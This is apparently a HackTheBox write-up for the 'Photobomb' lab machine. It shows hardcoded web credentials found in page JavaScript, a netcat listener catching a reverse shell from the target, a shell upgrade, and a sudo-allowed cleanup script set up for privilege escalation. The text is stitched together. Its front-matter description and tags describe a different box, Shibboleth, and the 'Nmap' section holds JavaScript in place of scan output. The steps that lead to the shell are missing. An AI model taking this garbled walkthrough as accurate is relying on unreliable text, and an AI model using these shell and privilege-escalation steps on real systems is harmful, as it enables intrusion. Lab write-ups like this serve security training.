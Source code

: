 ```yaml
---
layout: post
title: "HTB: PHOTOBOMB (10.10.11.182)"
description: "Shibboleth is a medium machine from HackTheBox created by knightmare & mrb3n. It starts off with a static website template. We will find a clue to look into BMC automation then find IPMI listening on UDP port 632. I will use Metasploit to leak a hash from IPMI, and crack it to get creds. This creds will allow me to log into Zabbix instance. Once in Zabbix i will use the Zabbix agent to execute commands and gain initial foothold. I will use credential reuse to pivots the next user. To get root, I’ll exploit a CVE in MariaDB / MySQL."
tags: [hackthebox, htb, linux, snmp, zabbix, command execution, access control lists, shibboleth, nmap, gobuster, ipimi-svc, mysql, password reuse, CVE-2021-27928,port 623,monitoring]
image: "/assets/img/photobomb/photobomb_feature.png"
---
```

## RECON
### Nmap

As always we start off with the recon and enumeration process to get an overview of our attack surface and target's running service.

We run NMAP with default scripts and enumerate version and save it in the directory called nmap.

```js
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```
And we get a shell on the box. While we are at it we can upgrade out shell to a better one

```sh
┌─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.15] from (UNKNOWN) [10.10.11.182] 43228
bash: cannot set terminal process group (697): Inappropriate ioctl for device
bash: no job control in this shell
wizard@photobomb:~/photobomb$ 

wizard@photobomb:~/photobomb$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
wizard@photobomb:~/photobomb$ ^Z
[1]+  Stopped                 nc -lvnp 9001
┌─[✗]─[george@parrot]─[~/HTB/boxes/photobomb]
└──╼ $stty raw -echo;fg
nc -lvnp 9001

wizard@photobomb:~/photobomb$
```

Lets see what are our sudo permissions 

```sh
wizard@photobomb:~/photobomb$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
Looking at the file we have read permissions 

```sh
wizard@photobomb:~/photobomb$ ls -l /opt/cleanup.sh
-r-xr-xr-x 1 root root 340 Sep 15 12:11 /opt/cleanup.sh

wizard@photobomb:~/photobomb$ cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

